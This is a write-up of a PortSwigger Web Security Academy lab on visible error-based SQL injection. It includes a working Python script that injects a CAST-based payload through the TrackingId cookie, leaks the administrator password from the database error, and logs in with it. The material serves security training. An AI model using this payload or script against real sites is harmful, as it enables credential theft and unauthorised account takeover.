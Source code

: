 ```yaml
---
title: Visible error-based SQL injection
tags:
  - web-app
  - sql
  - injection
---
```


<a href="https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based/">
11. Visible error-based SQL injection</a>

The target contains a SQL injection vulnerability in its cookies. It provides a
TrackingId cookie to keep track of visitors for analytics purposes. The queries
to search for this TrackingId are injectable. When this web application
encounters an error in a SQL query, debugging information, including the SQL
query being executed, is returned in the response.

Forcing a type mismatch with the CAST operator, we can leak the administrator
password by trying to cast the password string to an integer. This will cause
the SQL query to return an ERROR, complaining that the string cannot be cast to
an integer. We can then extract the password from the error message.

Solution:

```python
# usage:
# python3 11.py \
# --u https://0aaa00a7037819be80f76c960063008a.web-security-academy.net

import http.client
import re
import string
from argparse import ArgumentParser
from typing import Optional

import requests

ALPHANUM = list(string.digits + string.ascii_lowercase)
http.client.HTTPConnection.debuglevel = 1


class Solution:
    def __init__(self, url: str) -> None:
        self.url = url.rstrip("/")
        self.s = None

    def login(self, username: str, password: str) -> requests.Response:
        self.s = requests.Session()
        login_url = f"{self.url}/login"
        r = self.s.get(login_url)
        csrf = re.findall(r"\"csrf\" value=\"([\w]+)\"", r.text)[0]
        r = self.s.post(
            login_url,
            data={
                "csrf": csrf,
                "username": username,
                "password": password,
            },
        )

        return r

    def solve(self) -> None:
        s = requests.Session()
        s.get(f"{self.url}/")
        cookies = s.cookies.get_dict()
        cookies["TrackingId"] = (
            "' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--"
        )
        r = s.get(f"{self.url}/", cookies=cookies)
        if r.status_code == 500:
            password = re.findall(r"integer: \"([\w]+)\"", r.text)[0]
        print(f"Password found! -- {password}")
        self.login("administrator", password)


def main():
    parser = ArgumentParser()
    parser.add_argument("--u", "--url", dest="url")
    args = parser.parse_args()
    s = Solution(args.url)
    s.solve()


if __name__ == "__main__":
    main()
```
